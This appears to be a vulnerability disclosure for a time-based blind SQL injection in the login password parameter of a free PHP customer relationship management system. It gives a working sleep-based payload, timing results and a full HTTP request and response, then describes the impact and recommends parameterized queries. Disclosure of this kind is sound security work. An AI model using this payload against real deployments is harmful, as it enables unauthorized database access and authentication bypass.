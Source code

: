 CMS source code url: https://www.sourcecodester.com/php/15895/simple-customer-relationship-management-crm-system-using-php-free-source-coude.html

URL: http://127.0.0.1/php-scrm/login/ \
Perameter: password

Attack Details: \
URL encoded POST input password was set to 0'XOR(if(now()=sysdate(),sleep(6),0))XOR'Z

Tests performed: \
0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 15.031 \
0'XOR(if(now()=sysdate(),sleep(3),0))XOR'Z => 3.029 \
0'XOR(if(now()=sysdate(),sleep(6),0))XOR'Z => 6.03 \
0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 15.027 \
0'XOR(if(now()=sysdate(),sleep(0),0))XOR'Z => 0.018 \
0'XOR(if(now()=sysdate(),sleep(0),0))XOR'Z => 0.026 \
0'XOR(if(now()=sysdate(),sleep(6),0))XOR'Z => 6.459

HTTP Request:
```
POST /php-scrm/login.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: http://127.0.0.1/php-scrm/
Cookie: PHPSESSID=7es0mk87rhg4ue4vq93d1316df
Content-Length: 90
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.0.0 Safari/537.36
Host: 127.0.0.1
Connection: Keep-alive

email=testing%40example.com&login=&password=0'XOR(if(now()=sysdate()%2Csleep(6)%2C0))XOR'Z
```

HTTP Response:
```
HTTP/1.1 200 OK
Date: Fri, 17 Feb 2023 13:37:38 GMT
Server: Apache/2.4.54 (Win64) OpenSSL/1.1.1p PHP/8.2.0
X-Powered-By: PHP/8.2.0
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 49
Keep-Alive: timeout=5, max=96
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

<script>window.location.href='login.php'</script>
```
The impact of this vulnerability:\
An attacker can use SQL injection to bypass a web application's authentication and authorization mechanisms and retrieve the contents of an entire database. SQLi can also be used to add, modify and delete records in a database, affecting data integrity. Under the right circumstances, SQLi can also be used by an attacker to execute OS commands, which may then be used to escalate an attack even further.

How to fix this vulnerability:\
Use parameterized queries when dealing with SQL queries that contain user input. Parameterized queries allow the database to understand which parts of the SQL query should be considered as user input, therefore solving SQL injection.
